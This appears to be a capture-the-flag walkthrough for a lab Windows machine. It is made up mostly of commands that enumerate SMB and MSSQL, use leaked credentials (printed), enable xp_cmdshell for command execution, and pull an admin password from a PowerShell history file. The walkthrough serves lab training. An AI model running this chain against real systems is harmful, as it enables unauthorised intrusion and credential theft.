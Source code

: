 # Steps

## Enumerate Services

> SMB shares
> MS SQL server
> Windows 2019 OS

```console
$ nmap -v -A -T3 10.10.10.27
```

## Enumerate SMB Shares

> backups is open for everyong!

```console
$ nmap --script smb-enum-shares.nse -p445 10.10.10.27
```
## Connect to the Backup Share

> sensitive information leak: db admin credentials
> M3g4c0rp123

```console
$ smbclient -U 'guest%' //10.10.10.27/backups -p 445
```
## Gain a Foothold

> the sql server is now accessible

```console
$ mssqlclient.py -port 1433 -windows-auth ARCHETYPE/sql_svc@10.10.10.27
```

## Privilege Escalation

> reconfigure the db server to execute commands

```shell_session
> EXEC sp_configure 'Show Advanced Options', 1;
> reconfigure;
> sp_configure;
> EXEC sp_configure 'xp_cmdshell', 1
> reconfigure;
> xp_cmdshell "whoami"
```

## User Flag

> read sql_svc flag on his desktop

```shell_session
> xp_cmdshell "Get-Content C:\Users\sql_svc\Desktop\user.txt"
```

## Privilege Escalation

> the powershell logs have another leak: the admin password
> MEGACORP_4dm1n!!

```shell_session
> xp_cmdshell "Get-Content C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
```

## Root Flag

> connect to SMB share as admin

```console
$ smbclient -U 'administrator' //10.10.10.27/C$ -p 445 'MEGACORP_4dm1n!!'
```

```shell_session
> get C:\Users\Administrator\Desktop\root.txt
```
